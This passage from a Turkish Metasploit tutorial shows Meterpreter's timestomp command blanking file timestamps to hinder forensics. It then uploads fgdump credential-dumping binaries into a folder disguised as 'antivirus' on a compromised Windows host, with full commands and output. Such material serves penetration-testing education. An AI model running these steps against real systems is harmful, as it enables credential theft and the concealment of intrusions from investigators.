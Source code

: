 

Ayıca, `test.txt` dosyasının `accessed time` değerinin dosyanın bilgilerini kontrol ettiğimizden dolayı hemen yeni tarihe güncellendiğini de vurgulamak gerekir. Windows için zaman kayıtlarının ne kadar değişken ve önemli olduğunu vurgulamak yerinde olacaktır.



Şimdi farklı bir teknik kullanalım. `timestomp` sunduğu `-b` seçeneği, zaman bilgilerini boş olarak ayarlamanıza yardımcı olur. Aşağıdaki örnekte, dosyanın mevcut durumu ve `timestomp test.txt -b` komutu sonrasındaki zaman bilgilerini görebilirsiniz.


```bash
meterpreter **>** timestomp test.txt -v
Modified      : Tue Dec 07 08:00:00 -0500 1999
Accessed      : Sun May 03 05:16:20 -0400 2009
Created       : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009

meterpreter **>** timestomp test.txt -b
**[*********]** Blanking file MACE attributes on test.txt
meterpreter **>** timestomp test.txt -v
Modified      : 2106-02-06 23:28:15 -0700
Accessed      : 2106-02-06 23:28:15 -0700
Created       : 2106-02-06 23:28:15 -0700
Entry Modified: 2106-02-06 23:28:15 -0700
```



Görüldüğü gibi dosyalar 2106 yılına ait zaman bilgilerini aldı. Bu görünüm Meterpreter komut satırından böyle iken bir de Windows içerisinde nasıl göründüğüne bakalım.


```bash
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 1/1/1601
Last Accessed: 5/3/2009 3:21:13 AM
Last Modified: 1/1/1601
```



Linux Meterpreter içerisinde 2106 yılı, Windows içinde 1601 oarak görülmektedir. Bu farkın sebebini <a href="http://en.wikipedia.org/wiki/1601#Notes">Ek bilgi</a> sayfasından inceleyebilirsiniz.



## Başka Bir Örnek



Şimdi, meterpreter komut satırımızdan Windows içerisine `WINNT\\antivirus\\` klasörü oluşturalım ve içerisine bir kaç dosya yükleyelim.


```bash
meterpreter **>** cd C:\\WINNT
meterpreter **>** mkdir antivirus
Creating directory: antivirus
meterpreter **>** cd antivirus
meterpreter **>** pwd
C:\WINNT\antivirus
meterpreter **>** upload /usr/share/windows-binaries/fgdump c:\\WINNT\\antivirus\\
**[*********]** uploading  : /usr/share/windows-binaries/fgdump/servpw.exe -> c:WINNTantivirusPwDump.exe
**[*********]** uploaded   : /usr/share/windows-binaries/fgdump/servpw.exe -> c:WINNTantivirusPwDump.exe
**[*********]** uploading  : /usr/share/windows-binaries/fgdump/cachedump64.exe -> c:WINNTantivirusLsaExt.dll
**[*********]** uploaded   : /usr/share/windows-binaries/fgdump/cachedump64.exe -> c:WINNTantivirusLsaExt.dll
```